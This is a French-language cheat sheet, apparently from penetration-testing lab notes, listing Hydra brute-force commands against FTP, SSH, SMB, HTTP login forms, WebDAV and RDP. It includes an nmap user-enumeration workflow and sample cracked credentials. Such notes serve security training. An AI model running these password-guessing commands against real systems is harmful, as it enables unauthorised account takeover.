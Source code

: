 # 🔨 Hydra - Bruteforce Tool

[← Retour à la table des matières](../README.md)

## 📋 Table des Matières
- [Syntaxe Générale](#syntaxe-générale)
- [Bruteforce par Service](#exemples-par-service)
  - [FTP](#ftp)
  - [SSH](#ssh)
  - [SMB](#smb)
  - [HTTP](#http)
  - [WebDAV](#webdav)
  - [RDP](#rdp)
- [Options Utiles](#options-utiles)

## Syntaxe générale
```bash
hydra [options] target service
```

## Exemples par service

### FTP
```bash
hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt targetIP ftp
hydra -l root -P /root/Desktop/wordlists/unix_passwords.txt ftp://targetIP:5554
```

### SSH
```bash
hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt targetIP ssh
```

### SMB
```bash
# Bruteforce SMB avec wordlists Metasploit
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt smb://targetIP

# Bruteforce avec liste d'utilisateurs personnalisée (après énumération)
hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt demo.ine.local smb

# Exemple de résultats typiques :
# [445][smb] host: targetIP   login: administrator   password: password1
# [445][smb] host: targetIP   login: demo   password: password1
# [445][smb] host: targetIP   login: auditor   password: hellokitty
```

**Workflow recommandé pour SMB :**
1. Énumération des utilisateurs avec nmap : `nmap -p445 --script smb-enum-users.nse targetIP`
2. Création d'un fichier users.txt avec les utilisateurs découverts
3. Bruteforce avec Hydra
4. Test des credentials avec crackmapexec pour validation

### HTTP
```bash
hydra -L users.txt -P passwords.txt targetIP http-post-form "/login:username=^USER^&password=^PASS^:Invalid"
```

### WebDAV
```bash
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt targetIP http-get /webdav/
```

### RDP
```bash
# Réduire la vitesse (-t 1) pour éviter de shutdown le service
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://targetIP -s 3389 -t 1 -V
```

## Options utiles
- `-L` : Liste d'utilisateurs
- `-l` : Utilisateur unique
- `-P` : Liste de mots de passe
- `-p` : Mot de passe unique
- `-t` : Nombre de threads
- `-V` : Mode verbose